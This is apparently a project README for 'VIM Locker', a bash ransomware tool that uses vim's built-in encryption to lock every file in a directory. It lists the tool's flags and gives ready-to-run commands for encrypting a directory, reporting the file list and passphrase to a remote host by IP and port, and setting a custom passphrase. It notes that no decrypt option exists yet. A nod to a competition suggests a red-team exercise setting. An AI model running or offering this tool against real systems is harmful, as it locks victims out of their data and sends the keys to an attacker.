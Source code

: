# VIM Locker

Did you know vim can encrypt your files?... I didn't either! Once I found out, I knew I had weaponize it into a cryptolocker. So I did that.

## Testing support for Vi & Vim

Because sometimes you don't have vim. :(

TODO:
* Test all options thoroughly.
* Test HOST option thoroughly.
* Probably spelling errors. Lots of them I bet.
* Stuff.
* Oh, and a decrypt option would be nice, huh? :)

## Options

```
  -H <IP>     Host ip to send encrpytion information to.
  -P <PORT>   Host port to send encrpytion information to.
  -e <PASS>   Set passphrase for file ( one is generated by default ).
  -l <FILE>   Log application actions to a file ( off by default ).
  -n          Generate a new passphrase for each file.
  -v          Display version.
  -h          Display this menu.
```
## Usage

I've built this tool to be very easy to use. Hopefully.

### Typical

Typical useage to be able to cryptolock the files in a directory:

```
$ bash vim_locker.sh -d directory
```

### Report to Host

If you want to report back to a host the files/passphrase, it's pretty simple:

```
$ bash vim_locker.sh -H 192.168.1.2 -P 80 -d directory
```

### Custom Passphrase

If you would like to set a custom passphrase instead of having one generated for you.

```
$ bash vim_locker.sh -d directory -e reallystrongpassword
```

### Help

Program should default to a help menu when no flags are specified or called with the `-h` option.

```
$ bash vim_locker.sh -h
```

## Credits
Kent 'picat' Gruber

#### Special Thanks

Wanted to give a shotout to [zmallen](https://github.com/zmallen) for some inspriation from his [LoLLocker](https://github.com/zmallen/lollocker). See you at ISTS this year? ;)

